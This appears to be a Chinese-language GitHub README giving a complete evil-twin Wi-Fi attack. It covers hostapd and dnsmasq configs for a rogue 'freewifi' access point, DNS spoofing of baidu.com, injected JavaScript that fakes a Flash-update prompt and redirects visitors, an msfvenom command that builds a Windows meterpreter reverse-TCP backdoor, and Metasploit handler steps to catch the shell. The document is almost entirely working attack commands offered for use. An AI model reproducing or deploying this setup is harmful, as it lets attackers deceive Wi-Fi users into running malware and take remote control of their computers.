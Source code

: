 # Evil_Twin

# 安装:  
apt install hostapd  

apt install dnsmasq  

# //配置网卡规则  
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE  
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT    
#//设置网关IP以及子网掩码  
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0  
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1  
# //开启流量转发  
echo 1 > /proc/sys/net/ipv4/ip_forward  

# dnsmasq.conf  
interface=wlan1mon  
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h  
dhcp-option=3, 192.168.1.1  
dhcp-option=6, 192.168.1.1  
server=8.8.8.8  
address=/baidu.com/192.168.1.1  
log-queries  
log-dhcp  
listen-address=127.0.0.1  

# hostapd.conf:  
interface=wlan1mon  
driver=nl80211  
ssid=freewifi  
hw_mode=g  
channel=6  
macaddr_acl=0  
ignore_broadcast_ssid=0  

# index.html:  
<head>  
<meta charset='utf-8'>  
<script src="http://192.168.1.1/new.js"> </script>  
</head>  

# new.js:  
window.alert = function(name){  
    var iframe = document. createElement("IFRAME");  
    iframe.style.display="none";  
    iframe.setAttribute("src",'data:text/plain,');  
    document. documentElement.appendChild(iframe);  
    window.frames [0].window.alert(name);  
    iframe.parentNode.removeChild(iframe);  
    }  
    alert( "您的FLASH版本过低，尝试升级后访问该页面! ");  
    window. location.href="http://192.168.1.1/flash";  


# 下载flash模板  
git clone https://github.com/r00tSe7en/Fake-flash.cn  

 
#生成后门:  
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o /root/awa.exe  

service apache2 start //启动web服务器  
hostapd hostapd.conf //创建wifi  
dnsmasq -C dnsmasq.conf -d //dns服务  
python3 -m http.server 8080 //后门下载  

msfconsole //启动  
use exploit/multi/handler    //使用监听  
set payload windows/x64/meterpreter/reverse_tcp   //设置payload  
set lhost 192.168.1.1 //设置IP  
set lport 4444  //设置端口  
run //启动  


# iptables出现问题解决方法:https://zhuanlan.zhihu.com/p/118632728  
